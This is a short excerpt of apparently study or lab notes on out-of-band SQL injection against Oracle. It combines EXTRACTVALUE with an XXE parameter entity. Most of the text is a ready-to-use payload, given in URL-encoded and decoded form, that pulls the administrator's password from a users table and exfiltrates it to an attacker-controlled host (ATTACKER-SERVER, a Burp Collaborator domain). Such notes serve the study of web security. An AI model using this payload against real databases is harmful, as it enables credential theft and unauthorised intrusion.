 <br>

* **Example:  Out of Band Data Exfiltration**

* Here we are using a method called extractvalue(), that takes in a XML type instance and XPath expression(this argument doesn't matter much it just needs to be there to execute correctly).


* An XXE payload using a parameter entity called remote is used, that will reach out to our Burp Collaborator.  The application will evaluate the SQL query before the XXE payload is executed.


    * Oracle DB:


```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ATTACKER-SERVER/">+%25remote%3b]>'),'/l')+FROM+dual--
```

    * Decoded Payload:


```
' UNION SELECT extractvalue(
xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://'||(select password from users where username = 'administrator')||'.BURP-COLLABORATOR-DOMAIN/"> %remote;]>
')
,'/1') 
FROM dual--
```
